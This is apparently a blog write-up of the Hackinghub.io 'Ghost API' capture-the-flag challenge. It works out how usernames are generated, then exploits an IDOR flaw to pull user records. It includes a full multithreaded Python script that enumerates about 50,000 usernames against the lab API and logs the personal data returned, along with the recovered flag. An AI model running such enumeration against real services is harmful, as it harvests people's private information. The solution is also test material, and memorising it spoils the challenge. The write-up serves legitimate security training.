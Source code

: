 ```yaml
---
author: clausmalver
title: Hackinghub.io - Ghost API
description: 
date: 2025-04-08
categories: [CTF]
tags: [CTF, Hackinghub.io]
---
```


# Ghost API Write-up
For this CTF challenge, we are given the endpoint https://z5dgz12o.eu2.ctfio.com/api/userInfo/showUserDetails/jrodriguez75. The objective is to leak confidential information from the API. There is no authorization required to access it, making it a textbook case of an IDOR (Insecure Direct Object Reference). If you want to know more about IDOR vulnerabilities you can check this out: [OWASP IDOR Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)

From the challenge description, we are expected to enumerate possible usernames stored in the database.

**The application's API is vulnerable to an IDOR that exposes sensitive user information. However, there's a twist — you'll need to understand the pattern behind how usernames are generated to fully exploit this vulnerability. Can you decipher the username creation logic and access the hidden information?**

**An example username might be: `jrodriguez75`**

When visiting the endpoint, the output looks like this:

```json
{
{
  "estado": "éxito",
  "datos": {
    "nombre_usuario": "jrodriguez75",
    "nombre": "J",
    "apellido": "Rodriguez",
    "correo_electronico": "jrodriguez75@ejemplo.com",
    "edad": 50,
    "telefono": "+34 693 741 885",
    "direccion": "Plaza del Sol 45, 28801",
    "carnet_identidad": "82980065K",
    "ciudad": "Ciudad de México"
  }
}
```
From this, we can infer that the username format follows a common Hispanic surname, with a lowercase letter in front and potentially a number at the end.
We want to try all possible combinations using:

- A single lowercase letter in front of the surname
- The surname itself
- Optionally, a number from 0 to 99 appended at the end

This gives us a pattern like: {a..z}{surname}{0..99 | nothing}

To automate this, I asked ChatGPT to write a Python script that generates these permutations and checks each one. I also added multithreading since there are over 50,000 combinations to try.

```python
import requests
import string
import json
import logging
from concurrent.futures import ThreadPoolExecutor, as_completed

# Logging setup
logging.basicConfig(
    filename="output.log",
    filemode="a",
    format="%(message)s",
    level=logging.INFO
)

# Top 20 common Hispanic surnames
surnames = [
    "garcia", "rodriguez", "martinez", "hernandez", "lopez",
    "gonzalez", "perez", "sanchez", "ramirez", "torres",
    "flores", "rivera", "gomez", "diaz", "reyes",
    "cruz", "morales", "ortiz", "gutierrez", "ramos"
]

base_url = "https://z5dgz12o.eu2.ctfio.com/api/userInfo/showUserDetails/"
MAX_THREADS = 20

# Generate all username permutations
usernames = []
for letter in string.ascii_lowercase:
    for surname in surnames:
        usernames.append(f"{letter}{surname}")
        for i in range(100):
            usernames.append(f"{letter}{surname}{i}")

def check_username(username):
    url = f"{base_url}{username}"
    try:
        r = requests.get(url, timeout=5)
        if r.status_code == 200:
            try:
                data = r.json()
                pretty = json.dumps(data, indent=2)
                log_entry = f"[+] {username} -> {url}\n{pretty}\n"
            except json.JSONDecodeError:
                log_entry = f"[+] {username} -> {url}\n[!] Non-JSON Response:\n{r.text}\n"

            print(log_entry)  # Print to console
            logging.info(log_entry)  # Save to log file

    except:
        pass

# Multithreaded execution
if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
        futures = [executor.submit(check_username, user) for user in usernames]
        for _ in as_completed(futures):
            pass
```
After a short amount of time, the flag appears in the terminal output:

```json
{
  "estado": "éxito",
  "datos": {
    "nombre_usuario": "cgarcia",
    "nombre": "C",
    "apellido": "Garcia",
    "correo_electronico": "cgarcia@ejemplo.com",
    "edad": 21,
    "telefono": "+34 610 915 022",
    "direccion": "Plaza del Sol 28, 28773",
    "carnet_identidad": "29367700N",
    "ciudad": "Lima",
    "flag": "flag{9c9b9206bc76e06c6efd87fe80cfb310}"
  }
}
```
**Flag**: `flag{9c9b9206bc76e06c6efd87fe80cfb310}`